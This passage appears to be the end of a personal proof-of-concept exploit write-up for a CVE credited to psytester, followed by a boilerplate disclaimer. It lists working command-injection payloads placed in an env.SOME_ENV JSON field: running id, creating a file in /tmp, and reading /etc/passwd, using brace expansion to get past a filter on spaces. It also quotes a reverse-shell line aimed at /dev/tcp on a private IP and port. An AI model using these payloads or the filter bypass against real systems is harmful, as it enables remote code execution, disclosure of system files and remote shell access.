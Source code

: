 ```
}"
```

You can change the content of `env.SOME_ENV` to your needs, but shell calls with spaces do not work.<br>
[hacktricks bypass-forbidden-spaces](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces) was my help<br>
Working payload are:
```
\"env.SOME_ENV\":\"id\"
\"env.SOME_ENV\":\"{touch,/tmp/exploited}\"
\"env.SOME_ENV\":\"{cat,/etc/passwd}\"
```
A reverse shell by `-l > /dev/tcp/192.168.4.107/4242 0<&1 2>&1` does not work, but there is another working case. Belive me :-)

Thank you for reading. The CVE is not my credit, but the work on the PoC exploit is powered by psytester, this post was only for my private fun. ;-)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2024 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
